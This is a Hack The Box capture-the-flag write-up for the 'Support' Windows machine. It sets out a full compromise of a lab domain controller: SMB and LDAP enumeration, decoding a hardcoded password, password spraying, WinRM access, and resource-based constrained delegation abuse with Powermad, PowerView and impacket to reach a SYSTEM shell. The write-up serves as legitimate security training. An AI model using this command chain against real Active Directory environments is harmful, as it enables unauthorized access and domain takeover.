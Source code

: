 # HTB - Support

**IP Address:** `10.10.11.174`  
**OS:** Windows  
**Difficulty:** Easy  
**Tags:** #SMB, #LDAP, #WinRM, #Kerberos, #BloodHound, #RBCD

---

## 1. Network Scanning

### 1.1 Ping Test

Verified machine is alive.

### 1.2 Nmap Full Port Scan

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.174 -oG allPorts
```
![[Pasted image 20250308152618.png]]

Found several ports including SMB (445), LDAP (389), WinRM (5985), and Kerberos (88).

### 1.3 Targeted Nmap Scan

```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49676,49679,49701,49739 -sC -sV 10.10.11.174 -oN targeted
```

Found Active Directory-related services running. Domain name: `support.htb`.

---

## 2. SMB Enumeration

### 2.1 Check Shares

```bash
smbclient -L 10.10.11.174 -N
```

Found share: `support-tools`

```bash
smbmap -H 10.10.11.174 -u none
```

Only `IPC$` and `support-tools` are accessible anonymously.

### 2.2 Explore support-tools Share

```bash
smbclient //10.10.11.174/support-tools -N
```

Downloaded and extracted:

```bash
get UserInfo.exe.zip
unzip UserInfo.exe.zip
```

Examined contents:

```bash
cat UserInfo.exe.config
strings -e l UserInfo.exe
```

Found: `LDAP://support.htb`, user `armando`, and an encoded string — likely a password.

---

## 3. User Enumeration with Kerbrute

### 3.1 Validate User Existence

Created `users.txt` with "ldap" and ran:

```bash
/opt/kerbrute/kerbrute userenum -d support.htb --dc 10.10.11.174 users
```

✅ `ldap` user is valid!

### 3.2 Bruteforce Other Users  
(⚠️ No further valid usernames were found)

```bash
/opt/kerbrute/kerbrute userenum -d support.htb --dc 10.10.11.174 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

❌ (Dead end – Continue with ldap user)

---

## 4. Reverse Engineering Credentials

Using ILSpy on `UserInfo.exe` revealed:

- Encoded password for user `ldap`
- Base64 + XOR with `key2 = 223` and key `armando`

Decoded using:

```python
import base64
from itertools import cycle

enc_password = base64.b64decode("...")
key = b"armando"
key2 = 223

res = ''
for e,k in zip(enc_password, cycle(key)):
    res += chr(e ^ k ^ key2)

print(res)
```

Recovered password for `ldap`: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

---

## 5. Validate Credentials

```bash
crackmapexec smb 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

✅ SMB login successful

```bash
crackmapexec winrm 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

❌ No WinRM access for `ldap` (🔒 Dead end)

---

## 6. RPC and LDAP Enumeration

Accessed RPC as `ldap`:

```bash
rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174
```

- Enumerated users
- Saved usernames using regex:

```bash
rpcclient -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]' > users
```

Attempted spraying the password across all users:

```bash
crackmapexec smb 10.10.11.174 -u users -p credentials.txt --continue-on-success
```

❌ Only `ldap` worked (🔒 Dead end)

---

## 7. Deep LDAP Search

```bash
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

Searched for user entries using:

```bash
grep -i "samaccountname: support" -B 40
```

🟢 Found plaintext password under `info` attribute:  
**`Ironside47pleasure40Watchful`**

---

## 8. Access via WinRM as support

```bash
evil-winrm -i 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
```

✅ Access granted  
🏁 **User flag obtained**

---

## 9. BloodHound for Privilege Escalation

Started Neo4j:

```bash
sudo neo4j console
```

Opened BloodHound web interface → http://localhost:7474  
Logged in with default credentials.

Uploaded data collected with:

```bash
.\SharpHound.exe -c All
```

✅ Path to domain admin via RBCD discovered

---

## 10. Exploiting RBCD

### 10.1 Powermad – Create Fake Machine

```powershell
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force)
```

### 10.2 PowerView – Assign Delegation Rights

```powershell
$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer dc.support.htb | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

✅ Confirmed via:

```powershell
Get-DomainComputer dc.support.htb -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

---

## 11. Get Administrator Access

### 11.1 Sync Time

```bash
timedatectl set-ntp off
sudo rdate -n 10.10.11.174
```

### 11.2 Request TGS

```bash
impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/SERVICEA$:123456
```

### 11.3 Pass the Ticket

```bash
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass dc.support.htb
```

✅ SYSTEM shell obtained  
🏁 **Root flag captured**

---

# ✅ MACHINE COMPLETE
